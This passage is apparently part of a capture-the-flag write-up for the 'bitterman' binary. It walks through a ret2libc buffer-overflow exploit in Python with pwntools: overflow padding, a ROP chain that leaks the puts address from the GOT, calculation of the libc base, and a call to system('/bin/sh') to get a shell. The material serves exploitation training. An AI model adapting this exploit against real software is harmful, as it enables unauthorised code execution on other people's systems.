First off, we need `main` address because the leak address will be changed everytime so we need to get main address so we can use the leaked address to get the offset for current process.
Using `objdump -D bitterman | grep main`, we will grab the address of the bitteman's `main`.

```r
-snip--
00000000004006ec <main>:
--snip--
```
Nice, we have the main address. Let's proceed further for crafting the exploit. 

> Warning: Before we proceeds, we need the `libc.so.6` of your machine. Copy it with `cp //lib/x86_64-linux-gnu/libc.so.6 .` , it willcopy the`libc.so.6` to the working directory.

Now, we will automate the finding of addresses of `put` and `system`  with pwntools but beforehand we need `/bin/sh` address as well. To find that, let's use strings `strings -a -t x libc.so.6 | grep /bin/sh` , we will get the address of `/bin/sh` from the `libc.so.6`.

Let's make the exploit:-


```r
#!/usr/bin/python

from pwn import * # importing fuctions 
#context(terminal=['gnome-terminal','new-window']) Debug purpose
#context.log_level = 'DEBUG' # Debug purpose
p = process('./bitterman') # using bitterman elf # processing the target elf
#p = gdb.debug('./bitterman','b main') # breakpoint setup at main via gdb
libc = ELF('libc.so.6')
plt_put = p64(0x400520) # PLT put address 
got_put = p64(0x600c50) # GOT put address
pop_rdi = p64(0x400853) # pop_rdi address
plt_main = p64(0x4006ec)

padding = "A"*152 # Because we know the offset from earlier

payload = padding +  pop_rdi + got_put + plt_put + plt_main

p.recvuntil("name?") # recieve data until we recieve the string
p.sendline("robin")  # send data 
p.recvuntil("message:") # recieve data until we recieve the string
p.sendline("1024") # send data 
p.recvuntil("text:") # recieve data until we recieve the string
p.sendline(payload) # send data
p.recvuntil("Thanks!") # recieve data until we recieve the string
leaked_puts = p.recv()[:8].strip().ljust(8,"\x00") # recieving the string until we get leaked address and padding with null bytes to length of 8
log.success("Leaked puts: %s" %(leaked_puts)) # Prints the leaked addresss
leaked_puts = u64(leaked_puts) # converts to 64-bit friendly integer


offset = leaked_puts - libc.symbols['puts'] # Ths
sys = p64(offset + libc.symbols['system'])
sh = p64(offset + 0x1b3e9a)

payload = padding+ p64(0x0000000000400509) + pop_rdi + sh + sys # remove p64(0x0000000000400509) if you're not using ubuntu
p.sendline("robin")
p.recvuntil("message:")
p.sendline("1024")
p.recvuntil("text:")
p.sendline(payload)
p.recvuntil("Thanks!")


p.interactive()
```